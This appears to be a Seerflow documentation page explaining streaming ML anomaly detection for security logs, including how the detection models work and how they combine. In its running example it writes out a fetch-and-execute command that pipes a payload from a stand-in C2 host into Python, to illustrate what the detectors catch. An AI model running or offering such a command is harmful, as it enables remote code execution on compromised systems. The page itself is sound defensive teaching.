

# Anomaly Detection

Sigma rules let you write precise detection logic for known attack patterns — brute-force SSH, suspicious PowerShell, DNS exfiltration. But they have a fundamental limitation: **you can only write a rule for an attack you already know about.**

What about a novel exploit, a creative lateral movement path, or a command sequence no Sigma rule covers? The rule library stays silent. The logs scroll past. The breach proceeds undetected.

**Anomaly detection** fills that gap. Instead of matching events against known-bad patterns, it learns what *normal* looks like and flags anything that deviates. No signatures required. No prior knowledge of the attack needed.

---

## Rules vs. Anomaly Detection

Neither approach is sufficient on its own. They complement each other.

| Dimension | Rules (Sigma) | Anomaly Detection (ML) |
|-----------|--------------|----------------------|
| **Catches** | Known attack patterns with precise signatures | Novel or evolving threats with no existing signature |
| **How it works** | Matches events against hand-written conditions | Learns normal behavior from data, flags deviations |
| **False positives** | Low — rules are specific by design | Higher — unusual is not always malicious |
| **False negatives** | High for novel attacks — no rule means no detection | Low — anything abnormal is flagged regardless |
| **Needs** | Security expertise to write and maintain rules | Training data for normal operations; tuning to reduce noise |

The strongest systems use both: Sigma for high-confidence alerts on known threats, anomaly detection as a safety net for everything else.

---

## Three Key Distinctions

Three design choices shape how well an anomaly detection system works in practice.

### 1. Statistical vs. Machine Learning

**Statistical anomaly detection** uses simple math — averages, standard deviations (a measure of how spread out values are), and fixed thresholds. If your servers handle 500 requests per minute and you suddenly see 50,000, a statistical check flags it. This catches obvious outliers but misses subtle patterns.

**Machine learning (ML) anomaly detection** uses algorithms that learn complex patterns from data, considering dozens of features simultaneously — request rate, error rate, payload size, time of day, command frequency — and flags combinations that look abnormal even when no single metric is obviously wrong.

### 2. Supervised vs. Unsupervised

**Supervised learning** requires **labeled data** — a training set where every example is tagged "normal" or "attack." Labeling thousands of log events is expensive, and new attack types break the labels immediately.

**Unsupervised learning** requires no labels. The model learns normal data structure on its own and flags anything that doesn't fit — critical for security, where the attacks you most need to catch are ones you have never seen. Seerflow uses unsupervised learning exclusively.

### 3. Batch vs. Streaming

**Batch processing** means the model trains on a dataset, gets deployed, and sits frozen until someone retrains it — maybe weekly, maybe monthly. If behavior shifts between cycles, the model misses it.

**Streaming (online) learning** means the model updates with every new event, adapting within hours. A new microservice starts generating unfamiliar log patterns? A streaming model absorbs that instead of flooding you with false alerts until the next retrain. Seerflow uses streaming learning for all detection models.

---

## The Anomaly Detection Pipeline

Here is how a raw log event becomes an anomaly score. Every event passes through each stage, and four models evaluate it simultaneously.



### What each stage does

**Raw Log Event** — An unprocessed log line arrives from any source: syslog, CloudWatch, Kafka, or an OpenTelemetry receiver.

**Drain3 (Template Extraction)** — A streaming parser that strips variable parts (timestamps, IPs, filenames) and extracts a **template** — the fixed structure. `Failed password for root from 198.51.100.23` and `Failed password for admin from 203.0.113.12` both become `Failed password for <*> from <*>`, turning millions of unique lines into a manageable set of patterns.

**Feature Engineering** — Computes numeric features from each event: template frequency, time since last occurrence, entity count, byte count, and other signals. These are what the ML models consume.

**Half-Space Trees (Content Anomaly)** — An online ML algorithm that flags events whose *content features* are unusual. It partitions the feature space randomly and flags points in sparse regions. A rarely seen template scores high.

**Holt-Winters (Volume Anomaly)** — Predicts expected event volume based on trends and seasonal cycles (daily, weekly). A sudden spike or unexpected silence triggers a flag.

**CUSUM (Change Detection)** — Short for **Cumulative Sum**, detects sustained shifts in a metric's mean. Unlike spike detectors, CUSUM catches gradual drifts that slip under simple thresholds.

**Markov Chains (Sequence Anomaly)** — Learns the typical order of events. If `ssh_login` is normally followed by `sudo_command` then `file_read`, a sequence jumping to `data_exfiltration` gets flagged.

**DSPOT (Auto-Threshold)** — Uses **Extreme Value Theory** to calculate dynamic thresholds from recent score distributions, replacing static human-chosen cutoffs. Adapts automatically as your environment changes.

**Blended Score** — All four outputs combine into a single score from 0.0 (normal) to 1.0 (highly anomalous). When multiple models agree, signal amplification pushes the blended score higher.

**Alert** — Events exceeding the DSPOT threshold trigger an alert via PagerDuty, Slack, or a webhook.

---

## The Running Example: Catching What Rules Miss

Our attacker brute-forced SSH, got in, and escalated privileges. Sigma rules caught those steps. But now the attacker does something no rule anticipates:

```bash
curl -s https://evil-c2.example.com/payload | python3
```

This downloads a payload from a **command-and-control (C2) server** (an attacker-controlled machine that sends instructions to compromised hosts) and pipes it into Python. No file hits disk. No malware signature fires. No Sigma rule matches.

The rule library stays silent. But the anomaly detection pipeline lights up:

- **Half-Space Trees** flags the template `curl -s <*> | python3` as rare — it has never appeared in this server's history.
- **Markov Chains** flags the sequence as unprecedented — the normal progression is `ssh_login` then `sudo` then routine admin commands, not `curl | python3` after privilege escalation.
- **Holt-Winters** flags the volume — at 4:12 AM this server normally generates near-zero outbound traffic, and the sudden external HTTP request deviates sharply from forecast.

Three models fire. The blended score spikes. DSPOT confirms it exceeds the adaptive threshold. An alert fires — catching an attack no rule was written for.

---

!!! info "How Seerflow Uses This"

    Seerflow runs all four detection models — Half-Space Trees, Holt-Winters, CUSUM, and Markov Chains — as a **streaming ensemble**. Every log event is scored by all four models simultaneously, and their outputs are blended into a single anomaly score.

    All models learn **incrementally** — no batch retraining step, no weekly model refresh. Each event updates the models in place, so they adapt to shifts in your environment within hours.

    The combination of **Sigma rules** (known threats) and **ML anomaly detection** (unknown threats) gives Seerflow full-spectrum coverage. Rules handle what we know about. ML handles what we don't.

    **You've completed the Security Primer!** You now understand the six concepts behind Seerflow: what a SIEM does, how ATT&CK classifies attacker behavior, how the Kill Chain maps attack progression, what IOCs and entities look like in logs, how Sigma rules encode known patterns, and how anomaly detection catches the threats rules miss.

    **Ready to go deeper?** Start with the [Architecture overview &rarr;](../architecture/index.md).
